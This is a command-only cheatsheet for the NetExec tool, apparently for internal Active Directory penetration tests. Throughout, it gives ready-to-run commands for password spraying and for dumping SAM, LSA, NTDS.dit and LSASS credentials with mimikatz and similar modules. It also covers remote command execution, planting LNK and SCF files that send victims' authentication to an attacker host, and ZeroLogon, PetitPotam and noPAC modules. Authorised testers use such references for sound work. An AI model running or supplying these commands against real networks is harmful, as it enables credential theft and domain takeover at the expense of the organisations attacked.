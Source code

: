 # NetExec Cheatsheet

[[_TOC_]]

A quick and dirty cheatsheet on the usage of [NetExec](https://github.com/Pennyw0rth/NetExec), without lots of explications, only commands. The purpose of this page is to provide the basic commands for the essential operations during an internal pentest.

If you need more detailed documentation, please refer to the [**official NetExec wiki**](https://www.netexec.wiki/).

And obviously, if you need more complete cheatsheets with most of the attacks to perform in Active Directory environments, take a look to [my other contents](https://hideandsec.sh/books/cheatsheets-82c).

## Enumeration

### Network

`netexec smb $TARGETS`

### Shares

`netexec smb $TARGETS -u $USERNAME -p $PASS --shares`

### Specific files in shares

A module for searching network shares:spider_plus. Running the module without any options (on a /24, for example) will produce a JSON output for each server, containing a list of all files (and some info), but without their contents. Then grep on extensions (conf, ini...) or names ($PASS .. ) to identify an interesting file to search:

`netexec smb $TARGETS -u $USERNAME -p $PASS -M spider_plus`

Then, when identifying a lot of interesting files, to speed up the search, dump this on the attacker machine by adding the -o READ_ONLY=False option after the -M spider_plus (but avoid /24, otherwise it'll take a long time). In this case, NetExec will create a folder with the machine's IP, and all the folders/files in it.

`netexec smb $TARGETS -u $USERNAME -p $PASS -M spider_plus -o READ_ONLY=False`

### Sessions

`netexec $TARGETS -u $USERNAME -p $PASS --sessions`

### Disk

`netexec smb $TARGETS -u $USERNAME -p $PASS --disks`

### Users

Logged : `netexec smb $TARGETS -u $USERNAME -p $PASS --loggedon-users`

Domain : `netexec smb $TARGETS -u $USERNAME -p $PASS --users`

Via RID Cycling : `netexec smb $TARGETS -u $USERNAME -p $PASS --rid-brute`

### Groups

Domain : `netexec smb $TARGETS -u $USERNAME -p $PASS --groups`

Local : `netexec smb $TARGETS -u $USERNAME -p $PASS --local-groups`

### Password policy

`netexec smb $DC -u $USERNAME -p $PASS --pass-pol`

## Check credentials

### User + pass

`netexec smb $TARGETS -u $USERNAME -p $PASS`

### User + hash

`netexec smb $TARGETS -u $USERNAME -H 'LM:NT'`

`netexec smb $TARGETS -u $USERNAME -H 'NTHASH'`

### Null session

`netexec smb $TARGETS -u '' -p ''`

### Password spraying

`netexec smb $TARGET -u $USERNAME user2 user3 -p Summer18`

`netexec smb $TARGET -u $USERNAME -p $PASS1 $PASS2 $PASS3`

`netexec smb $TARGET -u /path/to/users.txt -p Summer18`

`netexec smb $TARGET -u $USERNAME -p /path/to/$PASSs.txt`

To continue spraying after success :

`netexec smb $TARGET -u /path/to/users.txt -p Summer18 --continue-on-success`

### Local authentication

`netexec smb $TARGETS -u $USERNAME -p $PASS --local-auth`

## Dump credentials

### SAM

`netexec smb $TARGETS -u $USERNAME -p $PASS --sam`

### LSA

`netexec smb $TARGETS -u $USERNAME -p $PASS --lsa`

### NTDS.dit

`netexec smb $DC -u $USERNAME -p $PASS --ntds #Via RPC`

`netexec smb $DC -u $USERNAME -p $PASS --ntds vss #Via VSS`

### LSASS

`netexec smb $TARGET -u $USERNAME -p $PASS -M lsassy`

`netexec smb $TARGET -u $USERNAME -p $PASS -M nanodump`

`netexec smb $TARGET -u $USERNAME -p $PASS -M mimikatz`

`netexec smb $TARGET -u $USERNAME -p $PASS -M procdump`

### LAPS password

`netexec ldap $DC -u $TARGET -p $PASS -M laps -o computer=$TARGET`

## Command execution

### Via CMD

`netexec $TARGET -u Administrator -p $PASS -x whoami`

### Via PowerShell

`netexec $TARGET -u Administrator -p $PASS -X '$PSVersionTable'`

## Write a leak file

### LNK

`netexec smb $TARGETS -u $USERNAME -p $PASS -M slinky -o SERVER=$ATTACKER_IP -o NAME=<file_name>`

### SCF

`netexec smb $TARGETS -u $USERNAME -p $PASS -M scuffy -o SERVER=$ATTACKER_IP -o NAME=<file_name>`

## Search for CVE

### ZeroLogon

`netexec smb $DC -u '' -p '' -M zerologon`

### PetitPotam

`netexec smb $DC -u '' -p '' -M petitpotam`

### noPAC

`netexec smb $DC -u $USERNAME -p $PASS -M nopac`
